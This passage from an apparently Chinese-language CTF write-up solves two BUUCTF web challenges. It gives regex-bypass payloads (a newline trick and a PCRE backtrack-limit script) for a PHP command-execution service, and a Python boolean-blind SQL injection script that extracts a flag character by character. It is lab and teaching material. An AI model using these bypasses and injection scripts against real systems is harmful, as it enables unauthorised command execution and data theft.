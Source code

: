 *   首先是下面的执行代码，先转换json格式数据，然后执行system函数。

    ```
    $cmd = json_decode($json, true)['cmd'];
    system($cmd); 
    ```

*   所以直接 {“cmd”:“ls”} 就能执行`ls`命令，但也只能执行它，有点不能理解，虽然明白下面的代码重新设置了环境变量的路径。但是没理解这操作有什么用。

    ```
    putenv('PATH=/home/rceservice/jail'); 
    ```

*   不过看payload可以理解，调用命令的绝对路径。后面是flag的路径。

*   第一种方法 利用`preg_match()` 函数只能匹配第一行数据的特性来绕过，在payload加一个换行符`%0a`

    ```
    ?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A} 
    ```

*   第二种方法是利用正则回溯次数大于上限时会返回布尔值false来绕过，[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

```
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
res = requests.post("http://ad66432f-4628-41f6-8190-d9b9c247904c.node3.buuoj.cn/", data={"cmd":payload})

print(res.text) 
```

### 5、[WUSTCTF2020]颜值成绩查询

*   布尔盲注，在测异或时发现1和 `1^0`的回显一样，0和 `1^1`的回显一样。
*   所以直接写脚本就行。

```
import requests
import time

url = "http://103048ee-0a94-4f23-ab6d-ba2830e76694.node3.buuoj.cn/?stunum=1"
res = ''
for i in range(1,50):
    print(i)
    left = 31
    right = 127
    mid = left + ((right - left)>>1)
    while left < right:        

        payload = "^(ascii(substr((select(value)from(flag)),{},1))>{})".format(i,mid)
        r = requests.get(url=url+payload)
        if r.status_code == 429:
            print('too fast')
            time.sleep(1)
        if 'Hi admin, your score is: 100'  in r.text:
            right = mid
        else:            
            left = mid + 1
        mid = left + ((right-left)>>1)
    if mid == 31 or mid == 127:
        break    
    res += chr(mid)
    print(str(mid),res) 
```
